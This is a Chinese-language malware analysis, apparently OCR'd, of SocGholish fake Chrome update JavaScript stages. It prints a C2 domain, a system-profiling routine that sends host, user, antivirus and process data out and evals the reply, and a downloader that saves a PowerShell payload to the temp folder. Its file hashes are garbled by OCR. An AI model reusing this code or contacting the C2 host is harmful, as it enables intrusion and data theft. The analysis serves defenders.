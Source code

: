 文件名确实类似于 Chrome 浏览器活动和感染的 SocGholish fakeupdate，所以我们来分析一下。首先是 fakeupdate 文件，它会以 zip 文件的形式下载到目标计算机上。

文件名:Chrome。Update.50e772.js

hash:56de 90d 87 bb 9 AFC 5345991 b 910 a 17 cf 0 c 6 ee 95 CB 97 ea 4 b 6 de 87 FD 93 A8 f 22 c 9 c 0

```
{‘URLS’: [‘https://10b33845.xen.hill-family.us/pixel.gif'], ‘C2’: [‘10b33845.xen.hill-family.us’]}
```

文件名:stage_2.js

哈希:ee 526 c 0 f 6 ce 5632 e 585 b 38322 C2 b 6332730 DFA 9702d 0d 94 c 99 dff 7 a 36 f 98 db1b

该文件是 SocGholish 的“init”部分，它充当受感染系统的初始分析器，并发送大量数据和一些硬编码值:

```
var req = [];
req.push('b');
req.push('503');
req.push(selfName);
req.push(ComputerName);
req.push(UserName);
req.push(Domain);
req.push(dnsDomain);
req.push(Manufacturer);
req.push(Model);
req.push(BIOS_Version);
req.push(AntiSpywareProduct);
req.push(AntiVirusProduct);
req.push(MACAddress);
req.push(ProcessList);
this['eval'](request(req));
```

文件名:stage_3.js

哈希:465 ab 5550 BC 788 a 274 e 38 a 71 ecdc 246d 407 c 453 a 7 a2 d 533 a 9 B4 aa 2d 9 e 53 a 8463

这是一个下载程序，设计用于下载和执行 powershell 脚本，它做的第一件事是设置一些将被利用的变量:

```
var execFileName = '2b5fdce5.ps1';
var fs = new ActiveXObject("Scripting.FileSystemObject");
var _tempFilePathExec = fs.GetSpecialFolder(2) + "\\" + execFileName;
```

提交下载文件的请求，并将其写入硬编码的名称:

```
try {
    var req = [];
    req.push('d');
    req.push('503');
    var fileContent = request(req);
    var stream = new ActiveXObject('ADODB.Stream');
    stream.Type = 2;
    stream.Charset = "ISO-8859-1";
    stream.Open();
    stream.WriteText(fileContent);
    stream.SaveToFile(_tempFilePathExec, 1);
    stream.Close();
} catch (e) {
    initExeption = 'error number:' + e.number + ' message:' + e.message;
}
```
